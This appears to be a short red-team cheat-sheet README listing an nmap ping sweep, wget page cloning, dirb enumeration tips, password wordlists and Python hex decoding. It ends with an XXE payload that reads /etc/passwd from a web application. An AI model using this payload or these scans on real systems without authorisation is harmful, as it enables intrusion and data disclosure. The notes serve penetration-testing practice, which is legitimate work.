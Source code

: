 # Red Team

* gethead.sh - gets HEAD from some webservesr.
* getrobots.sh - get ```robots.txt``` from webservers.
* hexstr.py - converts hex-encoded str back to ascii

### Very quick ping sweep
```sudo nmap -n -sn -PE -T5 $ipRange```

### Clone web page
```wget -r -nH $url```


## Webapps

Don't forget to enumerate everything. Even the things you haven't thought of.

### dirb
* Check for cgi-bin/
* Search for different file extensions (is there a list of common file ext for brute forcing?)


# Wordlists
* [SecList - Really good wordlists](https://github.com/danielmiessler/SecLists)
* raft-large
* rockyou

# Python

### Dealing with hex encoded strings.

#### Convert hex to dec, 6c = 'l'
```dec = int("6c", 16)```

#### Print that in ascii
```print chr(dec)```

## XXE (XML External Entity)

Find some Rest/XML API endpoint of a webapp, using POST requests you can get it to RCE.
```xml
<?xml version="1.0"?>
<!DOCTYPE food [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```


